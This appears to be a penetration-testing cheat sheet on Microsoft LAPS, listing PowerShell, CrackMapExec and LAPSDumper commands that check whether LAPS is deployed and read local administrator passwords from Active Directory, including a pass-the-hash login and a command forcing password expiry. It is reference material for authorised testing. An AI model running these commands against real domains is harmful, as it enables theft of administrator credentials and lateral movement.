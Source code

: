 # LAPS

* [https://adsecurity.org/?p=1790](https://adsecurity.org/?p=1790)




## Enabled?

Check locally:

```
PS > gc "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-FileHash "c:\program files\LAPS\CSE\Admpwd.dll"
PS > Get-AuthenticodeSignature "c:\program files\LAPS\CSE\Admpwd.dll"
```

Check in LDAP:

```
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwd,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
PowerView3 > Get-DomainObject "CN=ms-Mcs-AdmPwdExpirationTime,CN=Schema,CN=Configuration,DC=megacorp,DC=local"
```




## Get Passwords



### PowerShell


#### ActiveDirectory

Query LDAP for AD computer objects with their passwords and its expiration date:

```
PS > $laps = Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd,ms-Mcs-AdmPwdExpirationTime -Server DC01 | ? {$_.'ms-Mcs-AdmPwd'} | select Name,ms-Mcs-AdmPwd,@{label="ExpDate";Expression={([datetime]::FromFileTime([convert]::ToInt64($_.'ms-Mcs-AdmPwdExpirationTime')))}}
PS > $laps | select -First 10
```

Check the name of enabled local administrators on a remote machine:

```
PS > Get-CimInstance -ComputerName SRV01 -ClassName Win32_Group -Filter "Name='Administrators'" | Get-CimAssociatedInstance -Association Win32_GroupUser | ? {$_.Disabled -eq $false} | fl
```

Change LAPS password (just zero the expiration time attribute):

```
PS > Get-ADComputer PC01 -Properties ms-MCS-AdmPwdExpirationTime| % {Set-ADComputer -Identity $_ -Replace @{"ms-MCS-AdmPwdExpirationTime" = "0"}}
```


#### Get-LAPSPasswords

* [https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/](https://www.netspi.com/blog/technical/network-penetration-testing/running-laps-around-cleartext-passwords/)
* [https://github.com/kfosaaen/Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)

```
PS > $cred = New-Object System.Management.Automation.PSCredential('snovvcrash', $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force))
PS > Get-LAPSPasswords -DomainController 10.10.13.37 -Credential $cred | fl
```


#### LAPSToolkit

* [https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)
* [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

Enumerate LAPS groups and permissions:

```
PS > $lapsGroups = Find-LAPSDelegatedGroups
PS > $lapsRights = Find-AdmPwdExtendedRights
```

Get passwords:

```
PS > Get-LAPSComputers
```



### CrackMapExec

* [https://github.com/T3KX/Crackmapexec-LAPS](https://github.com/T3KX/Crackmapexec-LAPS)

```
$ cme smb <DC_IP> -u snovvcrash -p 'Passw0rd!' -M laps
```



### LAPSDumper

* [https://github.com/n00py/LAPSDumper](https://github.com/n00py/LAPSDumper)

```
$ python laps.py -d megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python laps.py -d megacorp.local -l DC01.megacorp.local -u snovvcrash -p :fc525c9683e8fe067095ba2ddc971889
```

